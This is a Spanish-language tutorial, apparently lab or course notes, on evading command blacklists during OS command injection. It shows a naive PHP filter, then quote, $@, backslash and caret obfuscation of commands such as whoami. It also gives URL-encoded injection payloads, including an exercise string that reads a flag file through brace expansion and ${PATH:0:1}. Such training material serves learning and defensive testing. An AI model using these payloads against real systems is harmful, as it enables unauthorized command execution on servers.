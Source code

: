 
---
# **Bypassing de Comandos Bloqueados en Inyección de Comandos**

Cuando una aplicación web bloquea comandos específicos mediante una lista negra, es posible evadir estos filtros utilizando técnicas de **ofuscación de comandos**. Estas técnicas permiten modificar la apariencia del comando sin alterar su ejecución.

---

## **1. Identificación de Filtros de Comandos**

Si una aplicación bloquea comandos como `whoami`, `cat`, `ls`, etc., es posible que implemente un filtro en PHP similar a:

```php
$blacklist = ['whoami', 'cat', 'ls'];
foreach ($blacklist as $word) {
    if (strpos($_POST['ip'], $word) !== false) {
        echo "Invalid input";
    }
}
```

Este tipo de filtro solo detecta **coincidencias exactas**, lo que permite evadirlo mediante técnicas de ofuscación.

---

## **2. Técnicas de Bypass en Linux y Windows**

### **a) Uso de Comillas**

Se pueden insertar **comillas simples (`'`) o dobles (`"`)** dentro del comando para que siga ejecutándose correctamente.

Ejemplo en Linux:

```bash
w'h'o'am'i
w"h"o"am"i
```

Salida esperada:

```
user
```

Aplicado en una inyección de comandos:

```
127.0.0.1%0aw'h'o'am'i
```

Si el filtro no está diseñado para ignorar comillas, el comando se ejecutará correctamente.

---

### **b) Uso de Caracteres Especiales en Linux**

Algunos caracteres pueden insertarse sin afectar la ejecución del comando:

- **Positional Parameter (`$@`)**

```bash
who$@ami
```

- **Backslash (`\`)**

```bash
w\ho\am\i
```

Estos caracteres son ignorados por Bash, pero evitan que el filtro detecte el comando completo.

---

### **c) Uso de Caracteres Especiales en Windows**

En **Windows CMD**, se puede insertar un **caret (`^`)** para evadir filtros:

```cmd
who^ami
```

Salida esperada:

```
user
```

Este método funciona en CMD, pero no en PowerShell.

---

## **3. Próximos Pasos**

- **Combinar bypasses de caracteres y comandos**: `$IFS`, brace expansion y quotes pueden utilizarse en conjunto.
- **Probar técnicas en Burp Suite**: Inyectar variantes en el **Host Checker** para analizar la respuesta del servidor.
- **Explorar más técnicas en "PayloadsAllTheThings"**: Buscar formas adicionales de evadir filtros en diferentes entornos.

En la siguiente sección se abordarán **técnicas avanzadas de ofuscación de comandos** para eludir filtros más sofisticados.

### Ejercicio

`127.0.0.1%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`
